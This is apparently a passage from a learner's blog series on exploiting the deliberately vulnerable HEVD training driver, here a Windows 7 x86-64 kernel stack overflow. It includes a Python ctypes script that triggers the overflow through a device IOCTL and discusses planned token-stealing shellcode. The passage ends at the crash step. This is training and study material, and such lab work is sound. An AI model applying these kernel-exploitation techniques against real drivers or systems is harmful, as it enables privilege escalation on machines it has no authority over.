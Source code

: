 ```yaml
---
layout: single
title: HEVD Exploits -- Windows 7 x86-64 Stack Overflow
date: 2020-01-21
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - Exploit Dev
  - Drivers
  - Windows
  - x86
  - x86-64
  - Shellcoding
  - Kernel Exploitation
  - Stack Overflow
---
```


## Introduction
Continuing on with the Windows exploit journey, it's time to start exploiting kernel-mode drivers and learning about writing exploits for ring 0. As I did with my OSCE prep, I'm mainly blogging my progress as a way for me to reinforce concepts and keep meticulous notes I can reference later on. I can't tell you how many times I've used my own blog as a reference for something I learned 3 months ago and had totally forgotten. 

This series will be me attempting to run through every exploit on the [Hacksys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver). **I will be using HEVD 2.0**. I can't even begin to explain how amazing a training tool like this is for those of us just starting out. There are a ton of good blog posts out there walking through various HEVD exploits. I recommend you read them all! I referenced them heavily as I tried to complete these exploits. Almost nothing I do or say in this blog will be new or my own thoughts/ideas/techniques. There were instances where I diverged from any strategies I saw employed in the blogposts out of necessity or me trying to do my own thing to learn more.

**This series will be light on tangential information such as:**
+ how drivers work, the different types, communication between userland, the kernel, and drivers, etc
+ how to install HEVD,
+ how to set up a lab environment
+ shellcode analysis

The reason for this is simple, the other blog posts do a much better job detailing this information than I could ever hope to. It feels silly writing this blog series in the first place knowing that there are far superior posts out there; I will not make it even more silly by shoddily explaining these things at a high-level in poorer fashion than those aforementioned posts. Those authors have way more experience than I do and far superior knowledge, I will let them do the explaining. :)

This post/series will instead focus on my experience trying to craft the actual exploits. 

I used the following blogs as references:
+ [@r0otki7's driver installation and lab setup blog post](https://rootkits.xyz/blog/2017/06/kernel-setting-up/),
+ [@r0otki7's x86 Windows 7 HEVD Stack Overflow post](https://rootkits.xyz/blog/2017/08/kernel-stack-overflow/),
+ [@33y0re's x86 Windows 7 HEVD Stack Overflow post](https://connormcgarr.github.io/Part-1-Kernel-Exploitation/),
+ [@\_xpn\_'s x64 Windows 10 HEVD Stack Overflow post](https://blog.xpnsec.com/hevd-stack-overflow/),
+ @sizzop's posts on the HEVD Stack Overflow [bug](https://sizzop.github.io/2016/07/06/kernel-hacking-with-hevd-part-2.html), [shellcode](https://sizzop.github.io/2016/07/07/kernel-hacking-with-hevd-part-3.html), and [exploit](https://sizzop.github.io/2016/07/08/kernel-hacking-with-hevd-part-4.html) respectively,
+ [@ctf_blahcat's x64 Windows 8.1 HEVD Stack Overflow post](https://blahcat.github.io/2017/08/18/first-exploit-in-windows-kernel-hevd/),
+ [@abatchy17's x86 and x64 Token Stealing Shellcode post](https://www.abatchy.com/2018/01/kernel-exploitation-2), and
+ [@hasherezade's HEVD post](https://hshrzd.wordpress.com/2017/06/05/starting-with-windows-kernel-exploitation-part-2/).

There are probably some I even forgot. Huge thanks to the blog authors, no way I could've finished these first two exploits without your help/wisdom. 

## Goal
We just knocked out the Win7 x86 exploit last post, let's get the Win7 x86-64 exploit completed now. We won't be going over most of the things we already covered in the last post. 

We will use a lot of the same approaches from last post with a few changes. Those changes will be:
+ Let's use `VirtualAlloc` instead of `VirtualProtect` this time,
+ We will need to change our script in certain places to work with 64 bit registers,
+ A new token-stealing shellcode provided by @abatchy17,
+ New kernel execution restoration shellcode, and
+ A new `ctypes` function or two.

Let's get started.

## Getting a 64-bit Crash!
We will once again use the `0x222003` IOCTL to reach our desired function `TriggerStackOverflow`, and the `CreateFileA` API will look exactly the same. This will once again return a handle to our device driver. Let's use the handle to call `DeviceIoControl` and get a crash by sending a large buffer. 

To create the buffer, we will use the awesome `ctypes` function `create_string_buffer` which I learned from @sizzop's awesome blog posts on this subject. (In the last post we leaned heavily on @r0otki7, in this one, I leaned heavily on @sizzop.) 

We will start by sending a buffer of 3,000 `"A"`, just like last time and we should get a crash. Right now our code looks like this: 
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

buf = create_string_buffer("A"*3000)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
    None,
    0,
    byref(c_ulong()),
    None
)

if result != 0:
        print("[*] Sending payload to driver...")
else:
    print("[!] Unable to send payload to driver.")
    sys.exit(1)
```

A tricky thing here is that when you `create_string_buffer`, your buffer is null terminated. Meaning it's one byte longer than the length we specified. This one is 3001 bytes long. You'll notice in `DeviceIoControl`, we subtracted one from the length of the buffer we want to send for this reason. (Thank you HEVD devs for including debug statements that include the length of the User Buffer!)

Running this on the victim should get us a crash. 


